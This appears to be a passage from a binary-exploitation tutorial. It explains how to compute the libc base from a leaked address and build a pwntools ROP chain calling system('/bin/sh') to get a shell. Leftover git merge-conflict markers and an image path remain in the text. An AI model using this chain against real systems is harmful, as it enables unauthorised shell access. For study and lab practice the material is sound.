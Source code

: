 <<<<<<< HEAD:exploiting/linux-exploiting-basic-esp/rop-leaking-libc-address.md
Giving the **path** to the **libc library** the rest of the **exploit is going to be automatically calculated**.
=======
Giving the **path **to the **libc library **the rest of the **exploit is going to be automatically calculated**. 
>>>>>>> 72cbd88461ed0e65da5433596050dd2ecb643f6b:exploiting/linux-exploiting-basic-esp/rop-leaking-libc-address/README.md

Inside the `get_addr`function the **base address of libc** is going to be calculated:

```python
if libc != "":
    libc.address = leak - libc.symbols[func_name] #Save libc base
    log.info("libc base @ %s" % hex(libc.address))
```

Then, the address to the function `system `and the **address **to the string_ "/bin/sh"_ are going to be **calculated **from the **base address** of **libc **and given the **libc library.**

```python
BINSH = next(libc.search("/bin/sh")) - 64 #Verify with find /bin/sh
SYSTEM = libc.sym["system"]
EXIT = libc.sym["exit"]

log.info("bin/sh %s " % hex(BINSH))
log.info("system %s " % hex(SYSTEM))
```

Finally, the /bin/sh execution exploit is going to be prepared sent:

```python
rop2 = OFFSET + p64(POP_RDI) + p64(BINSH) + p64(SYSTEM) + p64(EXIT)

p.clean()
p.sendline(rop2)

##### Interact with the shell #####
p.interactive() #Interact with the conenction
```

Let's explain this final ROP.\
The last ROP (`rop1`) ended calling again the main function, then we can **exploit again **the **overflow **(that's why the `OFFSET `is here again). Then, we want to call `POP_RDI `pointing to the **addres **of _"/bin/sh"_ (`BINSH`) and call **system **function (`SYSTEM`) because the address of _"/bin/sh"_ will be passed as a parameter.\
Finally, the **address of exit function** is **called **so the process** exists nicely** and any alert is generated.

**This way the exploit will execute a **_**/bin/sh **_**shell.**
